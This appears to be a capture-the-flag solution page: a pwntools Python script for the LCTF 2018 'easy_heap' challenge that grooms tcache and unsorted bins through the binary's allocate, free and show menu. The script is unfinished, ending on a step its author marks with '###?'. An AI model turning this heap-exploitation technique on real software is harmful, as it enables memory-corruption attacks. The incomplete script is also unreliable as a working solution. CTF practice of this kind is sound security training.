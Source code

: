 ## lctf 2018 easy_heap

```py
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level = "debug"

p = process("./easy_heap")
libc = ELF("./libc64.so")

def malloc(size,context):
	p.sendlineafter("which command?\n> ","1")
	p.sendlineafter("size \n> ",str(size))
	p.sendlineafter("content \n> ",str(context))

def free(index):
	p.sendlineafter("which command?\n> ","2")
	p.sendlineafter("index \n> ",str(index))

def show(index):
	p.sendlineafter("which command?\n> ","3")
	p.sendlineafter("index \n> ",str(index))

for i in range(0,10):
	malloc(0x10,"111")


# place in unsorted_bin and tcache bin
for i in range(3,10):
	free(i)

free(0)
free(1)
free(2)

# 0x200
# split unsorted chunk
for i in range(0,7):
	malloc(0x10,"1111")
malloc(0x10,"77777777")
malloc(0x10,"88888888")
malloc(0x10,"99999999")

for i in range(0,6):
	free(i)

free(8)
free(7)

# chunk 3 prev_inuse
malloc(0xf8,"b"*8)

free(6)
free(9)


for i in range(7):

	malloc(0x10,"4444")


malloc(0x10,"5555")###?

```